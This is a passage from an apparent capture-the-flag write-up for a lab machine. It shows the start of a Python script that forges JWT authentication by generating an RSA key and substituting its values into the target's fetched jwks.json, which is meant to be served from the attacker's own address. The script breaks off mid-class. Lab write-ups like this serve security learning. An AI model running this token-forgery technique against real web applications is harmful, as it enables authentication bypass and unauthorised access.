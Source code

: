 ![](/assets/img/posts/unicode/lfi-bypassed.png)

sake of the learning purpose, i tried to create a python script to automate all of this.
```py
import jwt
import json
from Crypto.PublicKey import RSA
import requests as r
from jwcrypto import jwk
import argparse
import re
import netifaces as ni
# from os import getcwd

host = 'http://hackmedia.htb'  # **IMPORTANT** add "10.10.11.126 hackmedia.htb" in "/etc/hosts" file.
files_path = '.'  # getcwd()
ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
jwks_serv_ip = ip


class GenTokenAndJWKS:
    def __init__(self):
        # Generate RSA key
        key = RSA.generate(2048)
        private_key = key.exportKey('PEM')
        public_key = key.publickey().exportKey('PEM')
        # Extract "n" and "e" value
        key = jwk.JWK.from_pem(public_key)
        jwks = key.export_public()
        # print(json.loads(jwks))

        # Generate modified "jwks.json" file
        org_jwks = r.get(f'{host}/static/jwks.json').text
        # print(org_jwks)
        json_object = json.loads(org_jwks)
        json_object['keys'][0]['n'] = json.loads(jwks)['n']
        json_object['keys'][0]['e'] = json.loads(jwks)['e']
        # print(json.dumps(json_object, indent=4))
        self.modified_jwks = json_object

```